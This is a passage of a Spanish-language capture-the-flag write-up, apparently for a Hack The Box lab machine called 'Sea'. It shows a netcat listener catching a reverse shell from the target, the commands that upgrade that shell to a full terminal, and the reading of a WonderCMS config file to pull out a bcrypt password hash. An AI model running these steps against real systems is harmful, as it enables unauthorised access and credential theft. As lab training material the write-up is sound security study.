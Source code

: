 y luego, en otra ventana con un netcat en escucha por el puerto que le especificamos al script del exploit:

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.28 60582
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 14:04:54 up  1:15,  0 users,  load average: 1.24, 1.60, 1.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Vamos a mejorar esta shell:

```bash
$ script /dev/null -c bash # Inicia un nuevo proceso
Script started, file is /dev/null
www-data@sea:/$ ^Z # CTRL + Z
[1]  + 11082 suspended  nc -lvnp 443

❯ stty raw -echo; fg # Pasar controles de la terminal al proceso
[1]  + 11082 continued  nc -lvnp 443
                                    reset xterm # Reiniciar terminal
www-data@sea:/$ export TERM=xterm-256color # Establecer tipo de terminal
www-data@sea:/$ stty rows 34 columns 149 # Establecer filas y columnas
www-data@sea:/$ source /etc/skel/.bashrc # ¡Colores!
```

### amay - sea

En los archivos del WonderCMS, podemos encontrar un hash bcrypt en el `database.js`:

```bash
www-data@sea:/var/www/sea/data$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/12\/21 14:04:42": "127.0.0.1",
            "2024\/12\/21 13:55:11": "127.0.0.1",
            "2024\/12\/21 13:52:10": "127.0.0.1",
            "2024\/12\/21 13:49:10": "127.0.0.1",
            "2024\/12\/21 13:46:34": "10.10.14.78"
        },
... [snip]
```
